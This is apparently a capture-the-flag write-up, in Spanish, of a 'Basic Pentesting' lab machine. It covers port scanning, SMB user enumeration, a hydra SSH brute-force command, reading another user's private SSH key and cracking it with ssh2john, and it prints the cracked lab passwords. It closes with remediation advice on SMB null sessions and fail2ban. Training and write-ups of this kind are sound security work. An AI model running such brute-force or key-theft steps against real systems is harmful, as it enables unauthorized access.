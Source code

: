 # Basic Pentesting
## Initial Scan
```
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
```
## Enum
### HTTP 
#### Gobusting
```
/development (Status: 301)
```
Dentro encontramos dos archivos distintos
#### Dev.txt
```

2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```
#### J.txt
```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```

### SMB
Es el momento de enumerar SMB :v, para ello usamos enum4linux
```
enum4linux -a IP
```
Y esto nos retorna 2 usuarios
```
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```
## Exploit
Bruteforcing time, tenemos dos users y sabemos como usarlos, admas por la nota anterior suponemos que la contraseña de j es común
```
 hydra -L users.txt -p /home/pj/rockyou.txt ssh://10.10.30.137
```
Finalmente la pass es armando

### Privesc

Desde jan podemos movernos lateralmente hacia kay para ello leemos el id_rsa de la carpeta de kay
```
cat /home/kay/.ssh/id_rsa
```
Crackeamos la clave con ssh2john + rockyou y tenemos que es
```
beeswax          (key_rsa)
```
Una vez dentro tenemos una copia de la clave de kay en local , la leemos y gracias a esto podemos ver que como kay podemos ejecutar cualquier comando como sudo.

Al llegar a /root encontre el siguiente mensaje pero no fui capaz de encontrar la segunda
```
There are two ways (that I'm aware of) to gain a shell, and two ways to privesc.
```
# Analisis de la intrusión
### Information Leak 
Mantener comunciaciones por canales poco seguros como por ejemplo archivos de texto sobre asuntos relativos a el servidor puede ser muy peligroso y mas si se habla de metodos de acceso al servidor
### SMB Null Sesion
Permitir inicio de sesion mediante null sesion de cara a SMB causa potenciales problemas a la seguridad del servidor permitiendo la enumeración de usuarios
### Password polices
Una politica de contraseñas mas robusta nos habria dificultado por no decir imposibilitado el acceso via ssh, pero la contraseña tanto de jan como de la clave privada de key estaban presentes en rockyou
### Bruteforce SSH allowed
Pese a tener una contraseña poco segura el ataque habria sido imposible si hubiese existido alguna proteccion contra bruteforcing en la propia máquina
# Soluciones
### Information Leak
Mover las conversaciones de /development a un servicio de comunicación seguro dentro de la máquina podria haber dificultado la intrusión (que no impedirla)
### SMB Null Session
Añadir las dos siguientes lineas a smb.conf deberia mitigar esta enumeracion lo cual dificultaria el reconocimiento de la misma por parte de los atacantes
```
map to guest = Never
restrict anonymous = 2
```
### Bruteforce SSH allowed
La instalación y configuración de un servicio como fail2ban previene la posibilidad de bruteforcear las creds.
